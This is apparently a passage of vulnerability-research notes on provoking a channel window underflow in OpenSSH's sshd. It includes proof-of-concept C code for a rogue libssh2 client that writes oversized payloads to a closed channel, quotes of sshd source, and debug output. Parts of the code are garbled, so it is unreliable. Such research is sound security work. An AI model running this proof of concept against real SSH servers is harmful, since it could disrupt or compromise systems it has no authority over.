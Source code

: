 ````Markdown

    char *payload = 0;
    #define WINDOW_SIZE 3000000
    payload = malloc(WINDOW_SIZE); // Large payload to trigger the issue
    if (payload == 0) {
        fprintf(stderr, "Memory allocation failed\n");
        goto shutdown;
    }

    memset(payload, 0, WINDOW_SIZE);
    memset(payload, 'A', WINDOW_SIZE    // channel is closed, writing to it anyways
    libssh2_channel_write(channel, payload, strlen(payload));
```

A `stream` channel can be in theses states:
``` channels.h
/* possible output states */
#define CHAN_OUTPUT_OPEN        0
#define CHAN_OUTPUT_WAIT_DRAIN      1
#define CHAN_OUTPUT_WAIT_IEOF       2
#define CHAN_OUTPUT_CLOSED      3
```

The poc works for now, and `c->ostate` is equal to `CHAN_INPUT_CLOSED (3)`, so the interesting code branch is taken.

# Sending large packets

I noticed that we can only have a `32700` bytes data here:
`debug1: UNDERFLOW: window=2097107 data=32700`
This should be because of this, in `packet.c:ssh_alloc_session_state(void)`:

```
state->max_packet_size = 32768;
```

Or maybe:
``` channels.h
#define CHAN_TCP_PACKET_DEFAULT (32*1024)
```

If packet can't be too large, then maybe we can reduce `local_window` size?
So we need to reduce window first, to try to get the underflow.

# On small windows?

Window size is given in `channels.c:channel_new` arguments.
```
Channel *
channel_new(struct ssh *ssh, char *ctype, int type, int rfd, int wfd, int efd,
    u_int window, u_int maxpack, int extusage, const char *remote_name,
    int nonblock)
```

There is:
``` channels.h
#define CHAN_TCP_PACKET_DEFAULT (32*1024)
#define CHAN_TCP_WINDOW_DEFAULT (64*CHAN_TCP_PACKET_DEFAULT)
```

So window size is 2097152 at first, that's what we found while debugging sshd.
We can loop and send data to reduce window size until it is under 32700, with our rogue client:
```
    while(1) {
        int res = libssh2_channel_write(channel, payload, strlen(payload));
````